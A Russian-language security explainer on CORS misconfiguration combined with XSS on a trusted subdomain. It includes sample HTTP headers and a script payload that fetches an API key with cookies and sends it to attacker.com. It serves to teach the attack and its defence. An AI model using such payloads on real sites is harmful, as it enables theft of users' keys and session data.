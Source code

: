 Даже «правильно» настроенный CORS устанавливает доверительные отношения между двумя источниками. Если веб-сайт доверяет источнику, который уязвим для межсайтового скриптинга ( XSS ), то злоумышленник может использовать XSS для внедрения некоторого JavaScript, который использует CORS для получения конфиденциальной информации с сайта, который доверяет уязвимому приложению.

Учитывая следующий запрос:
```
GET /api/requestApiKey HTTP/1.1 
Host: vulnerable-website.com 
Origin: https://subdomain.vulnerable-website.com 
Cookie: sessionid=...
```

Если сервер отвечает:
```
HTTP/1.1 200 OK 
Access-Control-Allow-Origin: https://subdomain.vulnerable-website.com 
Access-Control-Allow-Credentials: true
```

Затем злоумышленник, обнаруживший уязвимость XSS, `subdomain.vulnerable-website.com`может использовать ее для получения ключа API, используя URL-адрес следующего вида:
```
<script>
  fetch('https://vulnerable-website.com/api/requestApiKey', {
    credentials: 'include'  // Отправляем куки
  })
  .then(response => response.text())
  .then(data => {
    // Отправляем данные на сервер злоумышленника
    fetch('https://attacker.com/steal?data=' + encodeURIComponent(data));
  });
</script>
```
- Этот код выполнится в браузере жертвы, если есть XSS на `subdomain.vulnerable-website.com`.
- Так как домен доверенный, CORS разрешит запрос.
- API вернёт данные (например, ключ API), которые отправятся злоумышленнику.

- **CORS доверяет `subdomain.vulnerable-website.com`** → запросы с него разрешены.
- **XSS позволяет выполнить произвольный JS** → злоумышленник может отправить запрос от имени жертвы.
- **Куки включаются (`credentials: true`)** → запрос идёт с авторизацией.


